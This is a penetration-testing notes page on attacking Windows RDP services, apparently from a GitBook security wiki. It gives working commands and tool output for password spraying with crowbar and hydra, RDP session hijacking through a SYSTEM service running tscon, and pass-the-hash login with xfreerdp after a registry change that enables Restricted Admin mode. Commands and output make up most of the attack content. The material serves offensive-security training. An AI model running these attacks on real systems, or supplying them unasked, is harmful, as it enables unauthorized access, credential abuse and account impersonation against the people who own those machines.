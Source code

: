 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# RDP

## Misconfigurations

### Weak Authentication Configuration

RDP uses traditional user authentication, meaning that brute-forcing methods are a common attack vector.&#x20;

{% hint style="info" %}
Although it is _very_ unlikely, it is possible to find an RDP service without a password if there has been a misconfiguration.
{% endhint %}

In most cases, RDP will be configured to lock or disable a users account after a certain number of failed login attempts. In these cases, performing password spraying - rather than traditional brute-forcing techniques - will be the best method if there are no known credentials.

## Brute-Forcing

### Password Spraying Using Crowbar

Using the [crowbar.md](../../../toolbox/tooling/password-attacks/crowbar.md "mention") tool, password spraying can be attempted against the RDP service.

```bash
clue@machine[~]$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

### Password Spraying Using Hydra

[hydra.md](../../../toolbox/tooling/password-attacks/hydra.md "mention") can also be used for password spraying.

```bash
clue@machine[~]$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

## RDP Session Hijacking

If an attacker gains access to a machine _and an account with **local administrator privileges**_, they may be able to perform RDP Session Hijacking. If a user connects via RDP to the compromised machine, the users remote desktop session can be hijacked, allowing the attacker to escalate privileges and impersonate the account.

> In the below example, the attacker is using the local 'juurena' account and will be hijacking the 'lewen' account.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To impersonate a user, the attacker needs to gain **SYSTEM** privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.&#x20;

It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```powershell
C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as [psexec.md](../../../toolbox/tooling/post-exploitation/psexec.md "mention") or [mimikatz.md](../../../toolbox/tooling/post-exploitation/mimikatz.md "mention"). A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges.

We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```powershell
C:\> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

To run the command, we can start the `sessionhijack` service :

```powershell
C:\> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

## Pass-the-Hash

Perform an RDP PtH attack to gain GUI access to the target system using tools like [xfreerdp.md](../../../toolbox/tooling/post-exploitation/xfreerdp.md "mention").

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:\


<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Adding the DisableRestrictedAdmin Registry Key**

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```bash
clue@machine[~]$ xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Keep in mind that this will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.
